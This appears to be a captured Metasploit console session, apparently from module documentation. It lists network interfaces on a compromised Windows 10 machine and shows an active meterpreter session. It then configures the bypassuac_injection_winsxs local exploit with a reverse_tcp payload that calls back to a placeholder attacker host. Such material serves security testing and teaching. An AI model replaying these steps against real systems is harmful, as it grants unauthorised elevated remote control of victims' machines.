 ```
Name         : Software Loopback Interface 1
Hardware MAC : 00:00:00:00:00:00
MTU          : 4294967295
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff


Interface  2
============
Name         : Teredo Tunneling Pseudo-Interface
Hardware MAC : 00:00:00:00:00:00
MTU          : 1280
IPv6 Address : 2001:0:4137:9e76:38b8:1e49:3f57:795f
IPv6 Netmask : ffff:ffff:ffff:ffff::
IPv6 Address : fe80::38b8:1e49:3f57:795f
IPv6 Netmask : ffff:ffff:ffff:ffff::


Interface  3
============
Name         : Intel(R) 82574L Gigabit Network Connection
Hardware MAC : 00:0c:29:73:25:67
MTU          : 1500
IPv4 Address : <Win10x86_IP>
IPv4 Netmask : 255.255.255.0
IPv6 Address : fe80::cc97:6548:c10a:f034
IPv6 Netmask : ffff:ffff:ffff:ffff::


Interface  6
============
Name         : Microsoft ISATAP Adapter #2
Hardware MAC : 00:00:00:00:00:00
MTU          : 1280
IPv6 Address : fe80::5efe:c0a8:86a0
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff

> sessions -l

Active sessions
===============

  Id  Type                     Information                            Connection
  --  ----                     -----------                            ----------
  1   meterpreter x86/windows  WIN10X86-1511\msfuser @ WIN10X86-1511  <MSF_IP>:30009 -> <Win10x86_IP>:50041 (<Win10x86_IP>)

> use exploit/windows/local/bypassuac_injection_winsxs
> set session 1
session => 1
> set target 0
target => 0
> set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
> set lhost <MSF_IP>
lhost => <MSF_IP>
> set lport 30010
lport => 30010
> set verbose true
verbose => true
> show options
```